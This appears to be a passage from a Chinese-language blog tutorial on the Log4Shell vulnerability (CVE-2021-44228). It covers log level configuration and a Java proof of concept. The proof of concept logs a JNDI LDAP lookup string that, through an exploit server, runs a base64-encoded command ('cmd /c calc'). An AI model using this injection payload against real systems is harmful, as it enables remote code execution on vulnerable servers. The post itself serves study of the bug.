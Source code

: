 配置level有多种方法，比如在resource/中新增log4j2.xml文件：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <!-- 为日志打印配置一个输出的前缀 -->
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss} [%t] %-5p %c{1} - %m%n"/>
        </Console>
    </Appenders>

    <Loggers>
        <Root level="info"> <!-- 设置根级别为 debug -->
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>

```

还有一种方法是通过代码API直接配置

```java
import org.apache.logging.log4j.core.config.Configurator;
import org.apache.logging.log4j.Level;
.......
public class CVE_2021_44228 {
    private static final Logger logger = LogManager.getLogger(CVE_2021_44228.class);
    public static void main(String[] args) {
        Configurator.setLevel("CVE_2021_44228", Level.INFO);
        logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}");
    }
}
```

如果我们是以攻击者的视角，其实是无法干涉这些配置的，所以能否触发该漏洞，要看开发使用的配置。

回到我们前边说的那段描述这个漏洞的话：此次漏洞触发条件为**只要外部用户输入的数据会被日志记录**，即可造成远程代码执行。

**这一篇内容感觉已经写的很长了，所以这里就结束了，后边可能再更新一篇jndi关键词 绕过的相关内容吧。**